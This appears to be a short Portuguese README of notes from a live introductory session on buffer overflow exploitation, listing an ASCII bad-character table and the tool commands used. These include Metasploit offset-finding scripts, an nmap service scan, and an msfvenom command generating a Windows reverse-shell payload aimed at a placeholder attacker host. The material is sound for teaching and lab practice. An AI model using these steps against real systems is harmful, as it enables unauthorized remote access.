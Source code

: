 # Live - Buffer Overflow, uma introdução ao assunto

## Tabela ASCII
| Char  Dec  Oct  Hex   Linux
| (nl)   10 0012  x0a   \n
| (cr)   13 0015  x0d   \r
| A      65 0101  x41
| B      66 0102  x42
| C      67 0103  x43

## Comandos utilizados

**Gerando texto único para identificação da posição do EIP**
| /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

**Checando a posição (offset) do EIP**
| /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438

**Conectando no rdesktop**
| rdesktop -u usuario -p senha -g 65% -x m endereco

**Buscando informações do serviço**
| nmap -Pn -p21 -A 192.168.15.150

**Gerando payload do shell reverso**
| msfvenom -p windows/shell_reverse_tcp LHOST=IP_atacante LPORT=Porta_atacante -b "\x00\x0a\x0d\x40" -a x86 -f python

